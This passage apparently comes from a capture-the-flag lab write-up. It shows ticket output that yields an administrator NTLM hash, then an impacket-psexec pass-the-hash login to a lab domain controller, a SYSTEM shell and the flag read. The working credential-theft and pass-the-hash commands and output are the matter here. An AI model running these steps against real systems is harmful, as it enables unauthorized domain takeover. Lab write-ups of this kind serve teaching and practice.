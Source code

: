 ```
  UserName                 :  administrator (NT_PRINCIPAL)
  UserRealm                :  CAPT.ORG
  StartTime                :  10/2/2023 6:13:05 AM
  EndTime                  :  10/2/2023 4:13:05 PM
  RenewTill                :  10/9/2023 6:13:05 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  4gK9U+F3PpFv2d/ur5idiA==
  ASREP (key)              :  0407283069E3DC709AF52D95B1BF9224

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 26667245871373BA27C81CC4ACBB84C9
```

Use psexec to login to the machine. 

```
┌──(kali㉿kali)-[~/Captivity]
└─$ impacket-psexec Administrator@192.168.100.130 -hashes :26667245871373BA27C81CC4ACBB84C9
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.100.130.....
[*] Found writable share ADMIN$
[*] Uploading file bRwjLWHm.exe
[*] Opening SVCManager on 192.168.100.130.....
[*] Creating service QOHX on 192.168.100.130.....
[*] Starting service QOHX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
dc01

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
ICSD{90fe25002f1e949719f6fa398c8a7374}

C:\Windows\system32> 
```
